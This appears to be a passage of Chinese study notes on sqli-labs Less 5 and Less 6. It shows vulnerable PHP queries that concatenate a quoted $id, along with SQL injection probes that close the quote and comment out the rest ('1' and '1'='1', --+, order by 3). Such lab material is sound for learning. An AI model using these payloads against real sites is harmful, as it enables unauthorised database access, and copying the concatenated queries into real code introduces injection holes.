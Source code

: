 

## 2.1 less5

```sql
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

SQL执行的语句是采用了  '  单引号闭合,

我们要是直接使用?id=1 and 1=1相当于执行的是`SELECT * FROM users WHERE id='1 and 1=1' LIMIT 0,1;`是不会有任何的反应。



正确写法：

```
?id=1' and '1'='1
?id=1' and '1'='2
```

或者：

```
?id=1' and 1=1 --+
?id=1' and 1=2 --+
--+ 将后面的sql语句进行注释
```

<img src="https://s2.loli.net/2022/11/25/cABjIFzxgrvDRXo.png" alt="image-20221111090609506" style="zoom:25%;" />

<img src="https://s2.loli.net/2022/11/25/LnlATbSg5rIQfEy.png" alt="image-20221111090627247" style="zoom:25%;" />

使用 order by 3 查询出字段数为3





## 2.2 less 6

源码：

```
$id = '"'.$id.'"';
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```

<img src="https://s2.loli.net/2022/11/25/9qTPdjeROkhY5rE.png" alt="image-20221111090758354" style="zoom:25%;" />



换成了双引号闭合





# 3、POST数据提交注入测试

```
sqlilabs less11
```
